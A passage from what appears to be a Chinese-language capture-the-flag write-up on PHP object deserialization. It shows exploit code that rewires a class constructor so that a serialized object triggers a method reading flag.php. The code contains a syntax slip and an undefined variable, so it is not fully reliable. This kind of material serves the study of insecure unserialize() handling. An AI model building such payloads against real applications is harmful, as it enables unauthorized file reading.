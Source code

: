 接下来我们只需要**修改Class acp里面的__construct()构造函数里面的内容为：$cinder = new ace**;即可控制程序调用Class ace中的echo name（）；

```php
<?php
class pkshow
{
    function echo_name()
    {
        return "Pk very safe^.^";
    }
}
class acp
{
    protected $cinder;
    public $neutron;
    public $nova;
    function __construct()
    {
        $this->cinder = new ace;
    }
 
}
class ace
{
 
    public $filename="flag.php";
    public $openstack;
    public $docker;
    function echo_name()
    {
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "keystone lost~";
            }
        }
    }
}
 
//触发Class acp -> __construct() 
$a = new acp();
 
$b = new ace();
$b->docker=null;
 
echo (serialize($a);
```
